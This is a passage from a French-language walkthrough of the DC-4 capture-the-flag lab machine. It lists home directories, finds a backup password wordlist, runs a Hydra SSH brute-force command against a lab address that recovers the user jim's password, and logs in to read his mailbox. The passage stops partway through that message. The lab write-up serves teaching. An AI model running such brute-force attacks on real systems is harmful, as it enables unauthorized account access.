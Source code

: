 ```
-rw-r--r-- 1 jim  jim   675 Apr  6  2019 .profile
drwxr-xr-x 2 jim  jim  4.0K Apr  7  2019 backups
-rw------- 1 jim  jim   528 Apr  6  2019 mbox
-rwsrwxrwx 1 jim  jim   174 Apr  6  2019 test.sh

./jim/backups:
total 12K
drwxr-xr-x 2 jim jim 4.0K Apr  7  2019 .
drwxr-xr-x 3 jim jim 4.0K Apr  7  2019 ..
-rw-r--r-- 1 jim jim 2.0K Apr  7  2019 old-passwords.bak

./sam:
total 20K
drwxr-xr-x 2 sam  sam  4.0K Apr  7  2019 .
drwxr-xr-x 5 root root 4.0K Apr  7  2019 ..
-rw-r--r-- 1 sam  sam   220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 sam  sam  3.5K Apr  6  2019 .bashrc
-rw-r--r-- 1 sam  sam   675 Apr  6  2019 .profile
```

Le fichier `test.sh` est un script shell donc le setuid bit ne s'applique pas. En revanche dans son dossier `backups` on trouve une wordlist que l'on s'empresse de récupérer pour la passer à `Hydra` :

```console
$ hydra -l jim -P /tmp/old-passwords.bak ssh://192.168.56.133
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-21 13:49:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 252 login tries (l:1/p:252), ~16 tries per task
[DATA] attacking ssh://192.168.56.133:22/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 87 to do in 00:01h, 15 active
[22][ssh] host: 192.168.56.133   login: jim   password: jibril04
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-21 13:51:14
```

Avec ce mot de passe, on peut se connecter via SSH en tant que `Jim` et lire le fichier `mbox` qui nous était précédemment inaccessible.

```
From root@dc-4 Sat Apr 06 20:20:04 2019
Return-path: <root@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
Received: from root by dc-4 with local (Exim 4.89)
        (envelope-from <root@dc-4>)
        id 1hCiQe-0000gc-EC
        for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
To: jim@dc-4
Subject: Test
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCiQe-0000gc-EC@dc-4>
From: root <root@dc-4>
Date: Sat, 06 Apr 2019 20:20:04 +1000
Status: RO
```